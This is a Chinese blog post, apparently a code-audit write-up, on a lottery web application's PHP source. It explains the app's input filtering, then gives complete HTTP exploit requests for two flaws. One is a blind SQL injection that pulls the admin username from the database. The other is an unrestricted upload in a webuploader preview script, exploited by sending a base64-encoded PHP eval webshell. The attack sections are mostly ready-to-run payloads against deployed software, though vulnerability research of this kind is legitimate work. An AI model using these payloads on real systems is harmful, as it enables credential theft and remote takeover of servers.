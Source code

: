 ```yaml
---
title: "记一套彩票程序代码审计"
date: 2020-12-31 23:42:06
draft: flase
tags: ['彩票程序']
categories: ['代码审计']
---
```




> 团队成员发的一套源码
<!--more-->




## 前期审计


在审计一套代码的时候，我们首先要了解程序的路由、全局文件是否有过滤等问题。
我们首先查看入口文件，也就是index.php


![image.png](https://sqlmap.wiki/images/cp1.png)


加载了conn.php,base.php等外部文件。判断是电脑还是手机访问。还判断了用户如果m传参是admin的话，显示权限不足，也就是不准你用这种路由访问后台。按照经验来看，这套程序是有个专门的后台登录文件。


conn.php
![image.png](https://sqlmap.wiki/images/cp2.png)


base.php
![image.png](https://sqlmap.wiki/images/cp3.png)




base.php从第76-93行是重点。
![image.png](https://sqlmap.wiki/images/cp4.png)




可以看到，对请求方式都添加了过滤，addslasheshe的功能就是给单引号添加反斜杠。

这个函数有个特性就是不会拦截数值型的变量。所以我们找注入就去找没有单双引号包裹的就行








## 发现漏洞
## 
### SQL盲注


全局搜索where关键字，发现一个数值型变量。定位到lib/controller/api/app.php文件。


![image.png](https://sqlmap.wiki/images/cp5.png)




可以看到，非常典型的一个注入。构造payload
```plsql
POST /index.php?m=api&c=app&a=getTips HTTP/1.1
Host: xxx.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:84.0) Gecko/20100101 Firefox/84.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 93
Origin: xxx.com
Connection: close
Referer: xxx.com
Cookie: PHPSESSID=mq7b12iqj8ci3d9njejsncmo0i
Upgrade-Insecure-Requests: 1

payment_id=1 or if((select ascii(substr(username,1,1)) from un_admin where userid=1)=97,1,0)#
```




### RCE 


对于RCE，我比较喜欢全局搜索file_put_contents，定位到statics/admin/webuploader/0.1.5/server/preview.php






```php
<?php
/**
 * 此页面用来协助 IE6/7 预览图片，因为 IE 6/7 不支持 base64
 */

$DIR = 'preview';
// Create target dir
if (!file_exists($DIR)) {
    @mkdir($DIR);
}

$cleanupTargetDir = true; // Remove old files
$maxFileAge = 5 * 3600; // Temp file age in seconds

if ($cleanupTargetDir) {
    if (!is_dir($DIR) || !$dir = opendir($DIR)) {
        die('{"jsonrpc" : "2.0", "error" : {"code": 100, "message": "Failed to open temp directory."}, "id" : "id"}');
    }

    while (($file = readdir($dir)) !== false) {
        $tmpfilePath = $DIR . DIRECTORY_SEPARATOR . $file;

        // Remove temp file if it is older than the max age and is not the current file
        if (@filemtime($tmpfilePath) < time() - $maxFileAge) {
            @unlink($tmpfilePath);
        }
    }
    closedir($dir);
}

$src = file_get_contents('php://input');

if (preg_match("#^data:image/(\w+);base64,(.*)$#", $src, $matches)) {

    $previewUrl = sprintf(
        "%s://%s%s",
        isset($_SERVER['HTTPS']) && $_SERVER['HTTPS'] != 'off' ? 'https' : 'http',
        $_SERVER['HTTP_HOST'],
        $_SERVER['REQUEST_URI']
    );
    $previewUrl = str_replace("preview.php", "", $previewUrl);


    $base64 = $matches[2];
    $type = $matches[1];
    if ($type === 'jpeg') {
        $type = 'jpg';
    }

    $filename = md5($base64).".$type";
    $filePath = $DIR.DIRECTORY_SEPARATOR.$filename;

    if (file_exists($filePath)) {
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    } else {
        $data = base64_decode($base64);
        file_put_contents($filePath, $data);
        die('{"jsonrpc" : "2.0", "result" : "'.$previewUrl.'preview/'.$filename.'", "id" : "id"}');
    }

} else {
    die('{"jsonrpc" : "2.0", "error" : {"code": 100, "message": "un recoginized source"}}');
}
```


关键代码33行，从php流直接获取内容。然后就是正则匹配，匹配/image/xxx，xxx赋值为后缀，base64,xxx为文件内容。然后进行了个判断，如果为jpeg，则把后缀定义为jpg，但是它这里判断完之后，并没有啥用，我们依然可以伪造为php后缀。其实这个代码跟我以前那篇交易所文章的代码几乎一模一样，有不懂的可以去看下。


#### payload


```plsql
POST /statics/admin/webuploader/0.1.5/server/preview.php HTTP/1.1
Host: xxx.com
Connection: close
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="87", " Not;A Brand";v="99", "Chromium";v="87"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=qg48o5j2dqcvivktta811srn30
Content-Type: application/x-www-form-urlencoded
Content-Length: 58

data:image/php;base64,PD9waHAgQGV2YWwoJF9QT1NUWyJjbWQiXSk7
```
